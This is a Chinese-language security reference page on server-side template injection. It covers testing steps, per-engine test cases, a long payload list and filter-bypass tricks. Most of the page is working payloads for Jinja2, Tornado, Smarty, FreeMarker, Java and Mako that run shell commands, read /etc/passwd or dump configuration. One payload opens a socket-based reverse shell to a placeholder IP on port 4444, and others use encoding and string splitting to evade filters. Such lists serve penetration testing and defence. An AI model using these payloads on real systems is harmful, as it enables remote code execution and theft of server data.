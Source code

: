 模版注入
========================================

简介
----------------------------------------
模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法
----------------------------------------
- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试用例
----------------------------------------
- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Ruby
    - ``<%= 7 * 7 %>``
    - ``<%= File.open('/etc/passwd').read %>``
- Java
    - ``${7*7}``
- Twig
    - ``{{7*7}}``
- Smarty
    - ``{php}echo `id`;{/php}``
- AngularJS
    - ``$eval('1+1')``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[-1].__subclasses__()}}``
	- 示例
		+ {{%22%22.__class__.__mro__[-1].__subclasses__()[183].__init__.__globals__[%27__builtins__%27][%27eval%27](%22__import__(%27os%27).popen(%27whoami%27).read()%22)}}
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``
	
payload
----------------------------------------
::

	{{4*4}}[[5*5]]
	{{7*7}}
	{{7*'7'}}
	<%= 7 * 7 %>
	${3*3}
	${{7*7}}
	@(1+2)
	#{3*3}
	#{ 7 * 7 }
	{{dump(app)}}
	{{app.request.server.all|join(',')}}
	{{config.items()}}
	{{ [].class.base.subclasses() }}
	{{''.class.mro()[1].subclasses()}}
	{{ ''.__class__.__mro__[2].__subclasses__() }}
	{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
	{{'a'.toUpperCase()}} 
	{{ request }}
	{{self}}
	<%= File.open('/etc/passwd').read %>
	<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
	[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
	${"freemarker.template.utility.Execute"?new()("id")}
	{{app.request.query.filter(0,0,1024,{'options':'system'})}}
	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
	{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
	{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
	{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
	{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
	{$smarty.version}
	{php}echo `id`;{/php}
	{{['id']|filter('system')}}
	{{['cat\x20/etc/passwd']|filter('system')}}
	{{['cat$IFS/etc/passwd']|filter('system')}}
	{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
	{{request|attr(["_"*2,"class","_"*2]|join)}}
	{{request|attr(["__","class","__"]|join)}}
	{{request|attr("__class__")}}
	{{request.__class__}}
	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
	{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
	${T(java.lang.System).getenv()}
	${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
	${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}${self.module.cache.util.os.system("id")}
	${self.module.runtime.util.os.system("id")}
	${self.template.module.cache.util.os.system("id")}
	${self.module.cache.compat.inspect.os.system("id")}
	${self.__init__.__globals__['util'].os.system('id')}
	${self.template.module.runtime.util.os.system("id")}
	${self.module.filters.compat.inspect.os.system("id")}
	${self.module.runtime.compat.inspect.os.system("id")}
	${self.module.runtime.exceptions.util.os.system("id")}
	${self.template.__init__.__globals__['os'].system('id')}
	${self.module.cache.util.compat.inspect.os.system("id")}
	${self.module.runtime.util.compat.inspect.os.system("id")}
	${self.template._mmarker.module.cache.util.os.system("id")}
	${self.template.module.cache.compat.inspect.os.system("id")}
	${self.module.cache.compat.inspect.linecache.os.system("id")}
	${self.template._mmarker.module.runtime.util.os.system("id")}
	${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
	${self.template.module.filters.compat.inspect.os.system("id")}
	${self.template.module.runtime.compat.inspect.os.system("id")}
	${self.module.filters.compat.inspect.linecache.os.system("id")}
	${self.module.runtime.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.exceptions.util.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
	${self.context._with_template.module.cache.util.os.system("id")}
	${self.module.runtime.exceptions.compat.inspect.os.system("id")}
	${self.template.module.cache.util.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.util.os.system("id")}
	${self.module.cache.util.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.util.compat.inspect.os.system("id")}
	${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
	${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
	${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
	${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
	${self.template.module.cache.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
	${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
	${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
	${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
	${self.template.module.filters.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
	${self.context._with_template._mmarker.module.cache.util.os.system("id")}
	${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
	${self.context._with_template.module.cache.compat.inspect.os.system("id")}
	${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
	${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
	${self.context._with_template.module.filters.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
	${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
	{{self._TemplateReference__context.cycler.__init__.__globals__.os}}
	{{self._TemplateReference__context.joiner.__init__.__globals__.os}}
	{{self._TemplateReference__context.namespace.__init__.__globals__.os}}
	{{cycler.__init__.__globals__.os}}
	{{joiner.__init__.__globals__.os}}
	{{namespace.__init__.__globals__.os}}

绕过技巧
----------------------------------------

字符串拼接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]``

使用参数绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    params = {
        'clas': '__class__',
        'mr': '__mro__',
        'subc': '__subclasses__'
    }
    data = {
        "data": "{{''[request.args.clas][request.args.mr][1][request.args.subc]()}}"
    }
    r = requests.post(url, params=params, data=data)
    print(r.text)

参考链接
----------------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `用Python特性任意代码执行 <http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/>`_
